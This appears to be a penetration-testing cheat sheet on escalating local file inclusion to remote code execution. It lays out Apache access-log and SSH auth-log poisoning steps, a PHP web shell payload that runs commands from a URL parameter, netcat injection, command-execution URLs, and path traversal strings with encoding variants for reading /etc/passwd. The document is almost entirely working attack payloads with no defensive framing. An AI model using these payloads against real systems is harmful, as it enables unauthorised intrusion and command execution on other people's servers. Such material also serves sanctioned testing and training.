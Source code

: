 # LFI

If you locate an LFI, first try to get RCE.

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Alternate poisoning method: SSH Log Poisoning

### 1) Locate the log file

    /var/log/auth.log

### 2) Poison the auth.log file

Connect to SSH port via netcat

    nc -nv IP 22

Inject payload

    <?php echo system($_GET['cmd']); ?>

### 3) Run commands via your webshell now

    http://domain.local/lfi.php?file=/var/log/auth.log?cmd=whoami

## Path Traversal manual payloads

Simple traversal: start with 

    ../../../../etc/passwd 

Try variants like : 

    ..//..//..//etc/passwd 
    
or 

    ..\/..\/..\/etc/passwd.

Dot+slash permutations: 

    ..././../ 
    
or 

    ..%2f..%2f..%2fetc/passwd (URL encoded).

Try Double-encoding: 

URL-encode twice if the app decodes input more than once (example: %252e%252e%252f = %2e%2e%2f).
